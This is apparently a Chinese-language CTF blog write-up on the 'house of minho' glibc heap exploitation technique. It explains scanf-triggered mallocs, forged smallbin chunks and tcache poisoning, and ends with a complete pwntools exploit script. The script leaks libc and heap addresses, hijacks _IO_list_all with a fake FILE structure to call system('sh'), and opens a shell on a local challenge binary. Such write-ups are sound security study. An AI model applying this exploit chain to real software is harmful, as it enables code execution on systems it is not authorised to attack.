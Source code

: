 ```yaml
---
title: houseofminho
date: 2024-08-01 11:29:00
tags: houseof
categories: ctf
---
```

# 前言
`houseofminho`最早是在宁波赛上遇到的，没想到这玩意给了我迎头痛击。当时老觉得这些过于复杂的堆利用有点钻牛角尖了，实战意义不大，但是现在想想，还是得认真学这些。

这种复杂的堆利用如果一直畏难的话，那我就一直不会有长进，但是啃下来之后却也觉得还能接受了。
# 题目详情
[这是完整题目附件](houseofminho.zip)
通过出题人给的源码我们可以发现，我们至始至终最多只能操控一个堆块，并且大小只能是0x40或0x80。尽管题目在0x40的堆块读入时给了0x80的大溢出，但是我们的利用还是有很大麻烦。

有一个很重要而且有趣的点是这道题对于scanf的利用

**scanf在收到大量字节输入时会调用malloc来创建缓冲区**
**而这道题看似scanf只有一个读入数字的处理？怎么让他收到大量字节输入呢**
**答案是在原来与题目交互时输入的1,2,3前面加上很多个0，这样就会让scanf有一个malloc大量字节后再free的操作**
**以上有一个前提，就是没有setbuf(stdin,0)**

初步利用思路
1. 在smallbin内放入多个0x90大小的堆块
2. 通过scanf的大malloc来触发将smallbin放入tcachebin的机制，从而利用溢出改fd指针获得任意地址写

那么下一步就是如何获得smallbin了
1. 首先smallbin只需要有一个，剩下我们可以通过bk指针在可控的堆上通过布局伪造，即使显示被corrupted，但是将它们放入tcachebin的过程是沿着bk进行且没有检查，所以这样是可以的
![smallbin](smallbin.png)
2. 那么smallbin从哪里来呢，答案是从unsortedbin
3. 我们可以先将堆块size改大，放入unsortedbin，再改小size(由于unsortedbin本身就是什么size大小的堆块都有，在此处自然没有对其size的检查)
4. 通过scanf的大堆块申请之后，被我们改小size的unsortedbin就会落入smallbin

当然上述都只是相对简化的，实际这题中还有两个点
1.  1. 利用unsortedbin伪造smallbin的过程中，在改小了size的unsortedbin下方，我们还需要伪造glibc的保护块来防止出错，而这样我们的可控空间就不够大了。
   ![heap1](heap1.png)
   图中很明显，我们可控的部分是绿色堆块往下0x80的大小，以及蓝色堆块往下数0x80的大小，但是我们必须伪造0x90大小的堆块！而且在0x90大小的堆块下方还需伪造两个哨兵块来防止malloc报错
    2. 所以在这里还有一个unlink手法，将unsortedbin向上合并0x30的大小以提高伪造利用率。
    3. 在图中可以看到绿色堆块中的0x31大小的堆块就是准备用来合并的，这样我们利用0x50大小堆块的uaf范围就可以从(0x80-0x48)变成(0x80-0x18)，大大增加了伪造的可能性
2.  在程序最开始还利用scanf的大堆块写往图中最下方的橙色堆块后方写了一个\x33，也就是3的ascii码。这样的布局可以防止蓝色堆块被free成unsortedbin之后的合并检查出错，因为\x33的prev_in_use位为1，被启用。

我这里也只是简单写一下思路，这题中的很多细节我都讲的比较粗略或者不够完整。
更完整详细的解题思路可以去看看[看雪Csome的记录](https://bbs.kanxue.com/thread-279588.htm)

这是完整exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="info",
)
def debug(io):
    gdb.attach(io,
'''
# b *$rebase(0x121B)
b 25
'''
)
io = process("./bh")

def add_small(content):
    log.info(f'add_small {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'1')
    io.sendafter(b'Data: ',content)
def add_big(content):
    log.info(f'add_big {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'2')
    io.sendafter(b'Data: ',content)
def show():
    log.info('show')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'2')
def show2(len):
    log.info(f'show {hex(len-1)}*0 + 2')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'2')
def delete():
    log.info(f'delete')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'3')
def delete3(len):
    log.info(f'delete {hex(len-1)}*0 + 3')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'3')

debug(io)
delete3(0xd59)
add_small(b'x'*0x48 + p64(0xd11))
show2(0x1000)
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
libc_base = u64(io.recv(0x6).ljust(8,b'\x00')) - 0x219ce0
log.success(hex(libc_base))

delete()
add_small(b'x'*0x48 + p64(0xcf1))
delete()
add_big(b'x')
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
heap_base = (u64(io.recv(0x5).ljust(8,b'\x00')) - 0x1)*0x1000
log.success(hex(heap_base))
delete()
add_small(b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base + 0x12c0) * 2 + p64(0x0) * 2 + p64(0x30) + p64(0xd00))
delete()
add_big(b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
delete()
add_small(flat({
    0x10:0,
    0x18:0x91,
    0x20:heap_base + 0x1380,
    0x28:libc_base + 0x219ce0,
},filler=b'\x00'))
show2(0xfff)
delete()

add_small(flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x12c0,
            0x18: heap_base + 0x12c0 + 0x30,

            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x12c0,
            0x48: heap_base + 0x12c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x12c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
delete()

add_big(b'x')
delete()
_IO_list_all = libc_base + 0x21a680
system = 0x50d60 + libc_base
 
fake_file = heap_base + 0x12e0
add_small(b"a"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x12d0 + 0x70)^((heap_base + 0x1000)>>12)))
delete()
add_big(flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base + 0x1000)>>12),
}, filler=b"\x00"))
delete()
add_big(flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
delete()
add_big(p64(fake_file))

io.interactive()
```
